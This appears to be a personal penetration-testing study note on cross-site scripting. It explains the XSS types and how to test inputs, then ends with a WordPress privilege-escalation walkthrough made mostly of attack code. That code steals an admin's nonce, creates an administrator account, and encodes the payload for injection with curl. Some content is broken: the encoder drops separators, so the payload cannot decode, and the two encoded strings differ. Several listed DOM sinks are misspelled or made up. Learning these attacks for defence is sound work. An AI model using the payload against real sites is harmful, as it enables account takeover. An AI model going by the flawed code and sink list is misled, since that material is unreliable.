

# Cross-Site Scripting (XSS):
Cross Site Scripting or 'XSS' is a *client side* injection of malicious code into a website. The code is executed when the victim visits the website and the page is loaded. The code is usually JavaScript code which runs on the user's machine to generate the website they're visiting.

Since a lot of code is ran on the client-side in order to generate a website's various pages, XSS has become a very common vulnerability.
## Basic Method
XSS is commonly carried out using [JavaScript](/coding/languages/javascript.md) b/c, not only is it used in nearly every website, it usually has *access to sensitive data such as user cookies*. JS can also be used to *make [HTTP](www/HTTP.md) requests* which can be used to send data (back to the attacker). Other data which can be accessed using JS includes APIs, geolocation, webcam data, etc..
### Typical Attack Flow:
1. Attacker creates a post/ content which will be displayed to anyone who visits the specific webpage. The post contains malicious code which will be executed when the webpage loads.
2. A victim visits the webpage where the attacker's post is being displayed. The malicious code in the post is executed by the victim's browser.
3. The malicious code exfiltrates sensitive data (such as a cookie) about the user and sends it via an HTTP request to an attacker-controlled server.
4. The attacker receives the user-cookie and *uses it to impersonate the user* on the website.
### An Example
Websites which display user-generated content can be vulnerable to XSS. One common example is a website which includes comment forums. If the comments from users *are not validated/ sanitized* an attacker can easily include malicious code in a comment which will then be executed *on other people's browsers* when they visit the page and load the comment forums.

An example comment could simply include [HTML](/coding/markup/HTML.md) `<script>` tags, and if placed/ injected correctly into the DOM, the script inside the tags will execute *for every browser which visits the forum and loads the malicious comment*.
## Types of XSS
Types of XSS can be organized into *client* vs *server XSS* based on where the malicious data is stored. The two most common types of XSS are *Reflected* and *Persistent*, with reflected being the most common of the two.

> [OWASP](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)
### Reflected
In reflected XSS the vulnerable application receives data in an HTTP request and then responds to that request *with the same data included in the response.* For example, a vulnerable URL to a legitimate website might include a search parameter supplied by the user:
```URL
https://example-website.com/search?term=jewelry
```
In a search like this, the website likely *responds* w/ HTML like this:
```HTML
<p>You searched for: jewelry</p>
```
If the application doesn't take any measures to sanitize the original user-supplied search term, then an attacker can take advantage of this and replace the term *in the URL* w/ malicious code:
```url
https://example-website.com/search?term=<script>malicious code here</script>
```
Reflected XSS *is usually delivered to the victim by an outside route* like as a malicious URL in a [phishing](/cybersecurity/TTPs/delivery/phishing.md) email. The malicious code is *appended to the end of a legitimate URL* and the URL is sent to the victim. When the victim clicks the link, the malicious code at the end of the URL is executed.

This type of XSS is referred to as 'reflected' because the mechanism *requires that the user-supplied input is returned to the browser as part of the server's response.*
### Persistent/ Stored
Stored/ Persistent XSS generally means that the malicious input is *stored or cached* by the webserver or in a database. This usually means it can *attack all users* because it will be likely be replicated across every instance of the webpage when it is rendered by a user's browser. With HTML5 it is possible it will never be stored on the server and will instead be stored on client browsers.

Persistent XSS (also called 'stored') is usually achieved by taking advantage of sites which *display user-provided content*. If the site doesn't properly *sanitize user input*, malicious code added by an attacker will make it into the HTML replicated across anyone's browser who visits the site (where the attacker's post is).
#### Example
Let's pretend this is a post from the attacker on a dating site, where other users can see their post:
```
'Hi! My name is Johnny and I'm definitely not a creep. I'm a normal person, and I love dogs or whatever <script>malicious code here</script>'
```
#### Blind XSS
Blind XSS is a type of stored XSS where *the attacker can't access the exit point of the data.* Usually, this type of XSS is done 'blindly' as in the attacker attempts to inject malicious code in several places on a web application w/o being able to see or check that it actually was a successful injection.

Commonly, the malicious data gets stored in a database or server and may not be executed immediately. Therefor, the attacker has no idea where their data was stored, or if it will even be executed.

For example, if an attacker submits a feedback form w/ a malicious script as part of its content, the script may not execute until someone on the backend of the application opens the submitted form to read it.
##### Tools to Detect Successful Blind XSS:
1. [KnoXSS](https://knoxss.me/)
2. [XSS Hunter](https://github.com/mandatoryprogrammer/xsshunter-express)
3. [bXSS Hunter](https://bxsshunter.com/)
### DOM Based
DOM based XSS requires user-supplied, malicious code to pass through a *sink* and takes place within the page's [DOM](../../../../www/DOM.md) (Document Object Model). Briefly, the DOM is a representation of the page's HTML content which is generated by the browser when it parses it.

DOM-based XSS occurs when the page's DOM *is modified by user-controlled content*. DOM-based XSS can be *stored or reflected* and it occurs when the page's content is parsed by the browser, causing the inserted JavaScript to be executed.

A "sink" is a JavaScript function or a DOM object that can cause undesirable effects if malicious data is passed to it. For example, the JS `eval()` method is considered a sink *because it processes the input given to it as JS*.

An HTML version of a sink is *`documnet.body.innerHTML`* b/c it could be given malicious HTML such as a `<script>` element and will execute the JavaScript inside it.

The *most common* sink in DOM based XSS attacks is the `location` property on the `window` on the DOM. If an attacker crafts a malicious URL and is able to inject it somewhere in the code so that `location` gets set to their URL, then the browser will be redirected to that URL.
#### Other Examples of Common Sinks:
1. `document.URL`
2. `document.documentURI`
3. `document.URLEncoded`
4. `document.baseURI`
5. `location`
6. `document.cookie`
7. `document.referrer`
8. `window.name`
9. `history.pushState`
10. `history.rreplaceState`
11. `localStorage`
12. `sessionStorage`
13. `IndesedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)`
14. `Database`
## Identifying XSS
One solid place to look for XSS is in *inputs* where the user of the web application can input their own values/ content. For example, search bars usually take user input and display some subsequent output. To check if the web application *sanitizes the input* we can start by just entering some garbage to see how the application responds. 
### Special Characters
Inputting special characters is a good way to check for whether input is being sanitized because special characters usually make up some part of a malicious code injection. The most common special characters are:
```
< > ' " ` { } ;
```
- `<` and `>` are used in [HTML](../../../bug-bounties/hackerone/hacker101/HTML.md) to denote elements
- `{` and `}` is used in JS to denote function declarations
- quotes are used to denote strings
- `;` denotes the end of a statement
If the application does not remove or somehow encode these characters when we input them, then it may be vulnerable to XSS.
### Character Encoding
The most common character encodings used in web apps is URL and HTML encoding.
#### URL Encoding
URL encoding is used to encode characters (*non-ASCII characters*) and reserved characters in URLs. It's also called "percent encoding" because it uses the `%` to denote the beginning of an encoded character

| Character | From Windows-1252 | From UTF-8 |
| --------- | ----------------- | ---------- |
| space     | %20               | %20        |
| !         | %21               | %21        |
| "         | %22               | %22        |
| #         | %23               | %23        |
| $         | %24               | %24        |
| %         | %25               | %25        |
| &         | %26               | %26        |
| '         | %27               | %27        |
| (         | %28               | %28        |
| )         | %29               | %29        |
| *         | %2A               | %2A        |
| +         | %2B               | %2B        |
| ,         | %2C               | %2C        |
| -         | %2D               | %2D        |
| .         | %2E               | %2E        |
| /         | %2F               | %2F        |
#### HTML Encoding
... is used to encode characters which are *tokens* in HTML. For example, `<` encoded with HTML encoding becomes `&lt`. If this kind of encoding is in place, the browser will *not interpret the character as the start of an HTML element* and will instead display the actual character.

For a full list of HTML encoded characters: [Wikipedia](https://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references#List_of_character_entity_references_in_HTML)
## Privilege Escalation with XSS
Privilege escalation via XSS usually involves stealing *cookies or session info/tokens*. If the web application does not securely manage sessions, we may be able to steal an authenticated user's cookie/ session. That would allow us to authenticate to the web app as that user.
### Cookies
Cookies are normally used by websites to *track state information* about the current user. They can be set with optional *flags*, two of which have implications for XXS
#### `Secure` Flag
the `Secure` flag tells the browser to *only send the cookie over encrypted connections* (like [HTTPS](../../../../www/HTTPS.md) instead of HTTP). This protects the cookie from being transmitted in cleartext and captured by someone intercepting traffic on the network. 
#### `HttpOnly` Flag
The `HttpOnly` flag tells the browser to *deny JS access to the cookie*. Without this cookie, we could potentially use XSS to steal the cookie.
#### Finding Cookies
We can see our current cookies by using the browser's developer tools. On Firefox, we need to look in the `Storage` tab, then click on the current website listed under the `Cookies` menu

> PEN 200

From this screenshot, three of the cookies have the `HttpOnly` flag set, meaning they can't be retrieved using JavaScript :,(
### `nonce`
Let's say we have stored XSS which will only execute when the admin of a WordPress page pulls up the "Visitors" plugin dashboard. If all of the cookies above have the `HttpOnly` flag set, then we can't use our XSS payload to hijack the admin's session cookies. However, we may be able to capture their `nonce` value and use it to take privileged actions (like create a new admin account for the WordPress app.

The `nonce` is a value which is generated by the server and is usually embedded in the website w/ each form or input. When the form is executed (and sends data in a request to the web server), the server checks the nonce value against it's own value on the backend. A new nonce is generated each time the page loads, so if the nonce from a request doesn't match the nonce generated from the supposed source (client), then the form is rejected.

The following is an example of how the nonce might be generated by the backend server using NodeJS:
```js
const crypto = require("crypto");
crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```
The nonce would then be included in forms in the rendered HTML (for the same browser instance) like this:
```js
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  // …
</script>
```
When the script is executed (lets say the script's execution results in a request being sent to the server), the nonce can be included in the CSP header of the request:
```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
...
```
`nonce` values in webdev are used to *add pseudo randomness* to a request and prevent [CSRF](../../delivery/CSRF.md) attacks. So, for our purposes, they *present another means of creating malicious requests which look like they were sent by the page's admin*.
#### Attack steps
So, assuming we have found a way to inject JS code into the application via XSS which executes when the admin user visits the dashboard page for the WordPress Visitors plugin, then we can use that execution to grab the administrator's nonce value and submit it in a request to the server. If done correctly, server will treat the request we submit with the nonce *as an authenticated request from the admin* because the nonce will match the nonce the server has saved for the browser instance in which our XSS executes (when the admin pulls up the Visitors dashboard).
##### 1. Capture the nonce
We can write our JS XSS code to capture the nonce value with someting like this:
```js
// Create an HTTP request to create a new user
const request = new XMLHttpRequest();
const requestURL = "/wp-admin/user-new.php";

// Send the request:
request.open("GET", requestURL, false);
request.send();

// Use regex to check the server's response for the nonce value
const nonceRegexMatcher = /ser" value="([^"]*?)"/g;
const matchedNonce = nonceRegexMatcher.exec(request.responseText);
const capturedAdminNonce = matchedNonce[1]
```
##### 2. Use the nonce to create a new admin user
```js
// Create the request paramets which includes the nonce we captured
const urlParams = `action=create&_wpnonce_create-user=${capturedAdminNonce}&user_login=ATTACKER&email=ATTACKER@EMAIL.COM&pass1=ATTACKERPASSWORD&pass2=ATTACKERPASSWORD&role=administrator`;

// Create the POST request for creating a new user
const createUserRequest = new XMLHttpRequest();
createUserRequest.open("POST", requestURL, true);
createUserRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");

// Send the request with the params and nonce included
createUserRequest.send(urlParams)
```
##### 3. Minify the payload
To ensure that our XSS payload is handled correctly and doesn't accidentally cause any errors when parsed, we can minify it into a one-liner and then encode it:
```js
const request=new XMLHttpRequest();const requestURL="/wp-admin/user-new.php";request.open("GET",requestURL,false);request.send();const nonceRegexMatcher=/ser" value="([^"]*?)"/g;const matchedNonce=nonceRegexMatcher.exec(request.responseText);const capturedAdminNonce=matchedNonce[1];let urlParams=`action=create&_wpnonce_create-user=${capturedAdminNonce }&user_login=ATTACKER&email=ATTACKER@EMAIL.COM&pass1=ATTACKERPASSWORD&pass2=ATTACKERPASSWORD&role=administrator`;const createUserRequest=new XMLHttpRequest();createUserRequest.open("POST",requestURL,true);createUserRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded");createUserRequest.send(urlParams);
```
##### 4. Encode the payload
We can use the following script in the browser's console to encode our payload, but first, we need to put the payload into a string so that the function can easily parse each character and convert it to it's UTF-16  integer code:
```js
const stringOfMinifiedJS = 'const request=new XMLHttpRequest();const requestURL="/wp-admin/user-new.php";request.open("GET",requestURL,false);request.send();const nonceRegexMatcher=/ser" value="([^"]*?)"/g;const matchedNonce=nonceRegexMatcher.exec(request.responseText);const capturedAdminNonce=matchedNonce[1];let urlParams=`action=create&_wpnonce_create-user=${capturedAdminNonce }&user_login=ATTACKER&email=ATTACKER@EMAIL.COM&pass1=ATTACKERPASSWORD&pass2=ATTACKERPASSWORD&role=administrator`;const createUserRequest=new XMLHttpRequest();createUserRequest.open("POST",requestURL,true);createUserRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded");createUserRequest.send(urlParams);';

const encodeJS = (stringOfMinifiedJS)=> {
	let output = '';
	for(let charIndx = 0; charIndx < stringOfMinifiedJS.length; charIndx++){
		const charEncoded = stringOfMinifiedJS.charCodeAt(charIndx);
		output += charEncoded;
	};
	return output;
};

const encodedPayload = encodeJS(stringOfMinifiedJS);
console.log(encodedPayload);

// Output:
99111110115116321141011131171011151166111010111932887776721161161128210111311710111511640415999111110115116321141011131171011151168582766134471191124597100109105110471171151011144511010111946112104112345911410111311710111511646111112101110403471698434441141011131171011151168582764410297108115101415911410111311710111511646115101110100404159991111101151163211011111099101821011031011207797116991041011146147115101114343211897108117101613440919434934263413447103599911111011511632109971169910410110078111110991016111011111099101821011031011207797116991041011144610112010199401141011131171011151164611410111511211111011510184101120116415999111110115116329997112116117114101100651001091051107811111099101611099711699104101100781111109910191499359108101116321171141088097114971091156196979911610511111061991141019711610138951191121101111109910195991141019711610145117115101114613612399971121161171141011006510010910511078111110991013212538117115101114951081111031051106165848465677569823810110997105108616584846567756982646977657376466779773811297115115496165848465677569828065838387798268381129711511550616584846567756982806583838779826838114111108101619710010910511010511511611497116111114965999111110115116329911410197116101851151011148210111311710111511661110101119328877767211611611282101113117101115116404159991141019711610185115101114821011131171011151164611111210111040348079838434441141011131171011151168582764411611411710141599911410197116101851151011148210111311710111511646115101116821011131171011151167210197100101114403467111110116101110116458412111210134443497112112108105999711610511111047120451191191194510211111410945117114108101110991111001011003441599911410197116101851151011148210111311710111511646115101110100401171141088097114971091154159
```
##### 5. Inject the payload & send
When we inject this payload, we want to make sure to include code to decode it. One way to do this is with a `<script>` tag which uses `eval()` and  `String.fromCharCode()` to decode our payload. You can think of this as a wrapper for the payload. The whole thing together will be our XSS injection.

Let's say our XSS is achieved by setting the `User-Agent` header in our request to the server to our XSS. Then we could send it to the target server just using [curL](../../../../CLI-tools/linux/remote/curL.md):
```html
curl -i http://targetwebsite --user-agent "<script>eval(String.fromCharCode(99111110115116321141011131171011151166111010111932887776721161161128210111311710111511640415999111110115116321141011131171011151168582766134471191124597100109105110471171151011144511010111946112104112345911410111311710111511646111112101110403471698434441141011131171011151168582764410297108115101415911410111311710111511646115101110100404159991111101151163211011111099101821011031011207797116991041011146147115101114343211897108117101613440919434934263413447103599911111011511632109971169910410110078111110991016111011111099101821011031011207797116991041011144610112010199401141011131171011151164611450111511211111011510184101120116415999111110115116329997112116117114101100651001091051107811111099101611099711699104101100781111109910191499359108101116321171141088097114951091156196979911610511111061991141019711610138951191121101111109910195991141019711610145117115101114613612399971121161171141011006510010910511078111110991013212538117115101114951081111031051106165848465677569823810110997105108616584846567756982646977657376466779773811297115115496165848465677569828065838387798268381129711511550616584846567756982806583838779826838114111108101619710010910511010511511611497116111114965999111115115116329911410197116101851151011148210111311710111511661110101119328877767211611611282101113117101115116404159991141019711610185115101114821011131171011151164611111210111040348079838434441141011131171011151168582764411611411710141599911410197116101851151011148210111311710111511646115101116821011131171011151167210197100101114403467111110116101110116458412111210134443497112112108105999711610511111047120451191191194510211111410945117114108101110991111001011003441599911410197116101851151011148210111311710111511646115101110100401171141088097114971091154159))</script>" --proxy 127.0.0.1:8080
```
The `--proxy` flag should send the request to [burp](../../delivery/tools/burp-suite.md) (if we're using it). If we turn Intercept on in Burp, then we can capture the request and look it over before sending it to the target. 

If it works, then we should be able to login to the WordPress site with the username and password of our new admin account!

> [!Resources]
> - [Cloudflare: XSS](https://www.cloudflare.com/learning/security/threats/cross-site-scripting/)
> - [OWASP: Reflected XSS](https://owasp.org/www-community/attacks/xss/#reflected-xss-attacks)
> - [PortSwigger: Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected)
> - [PortSwigger: Dom-based](https://portswigger.net/web-security/dom-based)
> - [OWASP: Types of XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)
> - [Geeks for Geeks: Blind XSS](https://www.geeksforgeeks.org/understanding-blind-xss-for-bug-bounty-hunting/#)
> - PEN 200
> - [W3 Schools: URL Encoding Reference](https://www.w3schools.com/tags//ref_urlencode.asp)
> - [MDN: nonce](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce)


